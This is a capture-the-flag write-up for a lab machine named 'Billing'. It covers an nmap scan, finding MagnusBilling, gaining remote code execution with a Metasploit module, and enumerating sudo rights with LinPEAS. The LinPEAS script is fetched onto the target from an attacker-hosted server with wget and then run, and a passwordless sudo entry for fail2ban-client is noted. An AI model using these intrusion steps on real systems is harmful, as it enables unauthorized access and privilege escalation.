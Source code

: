 # Billing
IP - 10.10.59.81

## Scanning and Enumeration
nmap scan:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling
|Requested resource was http://10.10.59.81/mbilling/
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:
/robots.txt - found: /mbilling/

- MagnusBilling - found by going to HTML source code (ctrl + U)

## Exploit (msfconsole - Remote Code Execution)
- In msfconsole searched for MagnusBilling 
![image](https://github.com/user-attachments/assets/68f4782c-c1eb-4e5d-b169-ccba7dd631e7)
- set RHOST and LHOST and then ran the command
![image](https://github.com/user-attachments/assets/9d00dd2e-127f-4bfa-8a3b-9b850ad14913)

- Navigate /home > found user "magnus" and inside his files I found the first flag.
- found id
``` 
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
``` 
- Executed LinPEAS to get more info about the machine:
1).``` python3 -m http.server 8000 ``` (opened new tab in the terminal and ran this command in LinPEAS directory)
2). On the target machine I ran those 3 commands: ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```
3). ``` chmod +x /tmp/linpeas.sh ```
4). ``` /tmp/linpeas.sh ```
5). results found:
```
Runas and Command-specific defaults for asterisk:
Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```
> indicating that you can run fail2ban-client without a password


fff


![image](https://github.com/user-attachments/assets/ccf1934f-1b38-49a2-9288-182c3b35fc81)
![image](https://github.com/user-attachments/assets/e7ed40cb-c154-4ef2-ba5f-61ed88d15968)

